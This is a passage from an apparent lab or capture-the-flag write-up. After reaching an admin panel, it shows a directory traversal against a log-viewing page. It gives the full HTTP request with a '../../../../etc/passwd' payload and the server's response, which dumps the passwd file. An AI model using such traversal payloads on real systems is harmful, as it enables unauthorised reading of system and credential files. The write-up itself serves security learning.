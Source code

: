 Yay! It worked. We are now in the admin panel.  

> The panel contains a site which allows the admin to view the content of log files which can be exploited by a `directory traversal` attack.
{: .prompt-info }

## arbitriary file read in `/admin/dashboard.php?page=log`

To proof that there is a `directory traversal` vulnerability we read the `/etc/passwd` file.

### request
```bash
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.153.101
Content-Length: 36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.153.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.153.101/admin/dashboard.php?page=log
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: close

file=../../../../../../../etc/passwd
```

### response
```bash
HTTP/1.1 200 OK
Date: Tue, 08 Feb 2022 20:17:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2836
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<head>
...
Contenu du fichier ../../../../../../../etc/passwd :  </br><PRE>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```